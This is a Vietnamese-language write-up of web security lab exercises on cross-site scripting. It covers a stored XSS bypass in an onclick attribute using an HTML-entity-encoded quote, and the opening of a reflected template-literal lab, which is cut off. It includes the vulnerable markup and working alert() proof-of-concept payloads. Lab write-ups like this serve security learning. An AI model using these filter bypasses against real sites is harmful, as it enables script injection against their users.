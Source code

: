 ## Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

Stored XSS nên nó sẽ lưu phần comment vào trong cơ sở dữ liệu. Ở phần này chúng ta chỉ cần focus vào ô điền website của chúng ta nơi nó có thuộc tính `onclick`. `onclick` là một thuộc tính mà khi đúp chuột vào phần tử đó nó sẽ được kích hoạt
Ví dụ `onclick="print()"` khi đúp chuột nó sẽ thực thi hàm `print()`. Còn đây là phần source code của form điền website
``` html
<body>
    <a id="author" href="https://14.rs/?'" onclick="
        var tracker={track(){}};
        tracker.track('https://14.rs');
    ">
    </a>
</body>
```
Sau khi điền tên website thì nó sẽ được đưa vào hàm onclick để thực thi, chúng ta có thẻ escape ra khỏi kí tự `'` và sau đó là một hàm `alert()`.

```
https://14.rs/?'+alert()+'
```
Theo dự tính thì nó sẽ như thế này
```html
<body>
    <a id="author" href="https://14.rs/?'" onclick="
        var tracker={track(){}};
        tracker.track('https://14.rs/?'+alert()+'');
    ">
    </a>
</body>
```
Nhưng khi đưa vào thì
![image](https://user-images.githubusercontent.com/68894302/171366214-28d3e4ab-d6f5-4177-8d60-8cfea6719c1c.png)
Như ta thấy giá trị `'` khi chúng ta thêm vào nó sẽ được thêm vào trước đó một dấu `\` vì có thể tác giả dùng replace hoặc do trình phân tích cú pháp url tự động. Vậy thì để bypass  chúng ta encoded nó sang dạng url như sau `'` -> `&#x27;` 
payload 
```
https://14.rs/?&#x27;+alert()+&#x27;//
```
![image](https://user-images.githubusercontent.com/68894302/171367634-7b825cd1-0218-4550-963d-97c3bd0dcb30.png)

---
## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

Đây là một thử thách Reflected XSS nên chuỗi tìm kiếm sẽ được lưu trực tiếp vào trong code html. Ở bài này cũng bị mã hóa các kí tự như `' > < " /` và còn một số kí tự nữa sang dạng unicode 
![image](https://user-images.githubusercontent.com/68894302/171451095-bd32f63e-d6c6-4dff-9a49-4530a1d3efe8.png)
